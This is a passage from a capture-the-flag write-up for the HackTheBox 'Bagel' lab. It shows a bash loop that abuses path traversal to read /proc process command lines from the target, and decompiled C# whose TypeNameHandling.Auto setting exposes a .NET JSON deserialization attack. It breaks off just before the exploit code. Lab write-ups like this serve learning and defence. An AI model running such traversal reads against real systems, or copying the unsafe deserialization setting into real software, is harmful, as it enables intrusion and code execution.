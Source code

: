 ### Finding the WebSocket DLL

```bash
# Gather cmdline content 
for i in $(seq 1 2500); do curl http://bagel.htb:8000/?page=../../../../../../proc/$i/cmdline --output - && echo -n "\n"; done >> ./cmdline_enum.log
```

```bash
..
dotnet /opt/bagel/bin/Debug/net6.0/bagel.dll
File not found
python3 /home/developer/app/app.py
/usr/sbin/irqbalance --foreground
/usr/sbin/mcelog --daemon --foreground
...
```

## DLL Decompile & Deserialization

I used [ILSpy](https://github.com/icsharpcode/AvaloniaILSpy) to decompile the dll and check the source code  

After digging deep into the code I realized that this could be a possible JSON .NET deserialization attack. That was something that is totally new to me and required a lot of research.  

This article explained a lot and was helpful: [Exploiting JSON serialization in .NET core](https://systemweakness.com/exploiting-json-serialization-in-net-core-694c111faa15)

### Identification

As you can see like mentioned in my linked article the TypeNameHandling is set to "4" instead of "None" which is safe and the default.    

Value "4" can be linked to "Auto" as stated [HERE](https://www.newtonsoft.com/json/help/html/T_Newtonsoft_Json_TypeNameHandling.htm)

```csharp
public object Deserialize(string json)
{
  try
  {
    JsonSerializerSettings val = new JsonSerializerSettings();
    val.set_TypeNameHandling((TypeNameHandling)4);
    return JsonConvert.DeserializeObject<Base>(json, val);
  }
  catch
  {
    return "{\"Message\":\"unknown\"}";
  }
}

```

To keep the post short I won't go deeper into that, as I myself haven't fully understood the concept yet and just post the exploit code
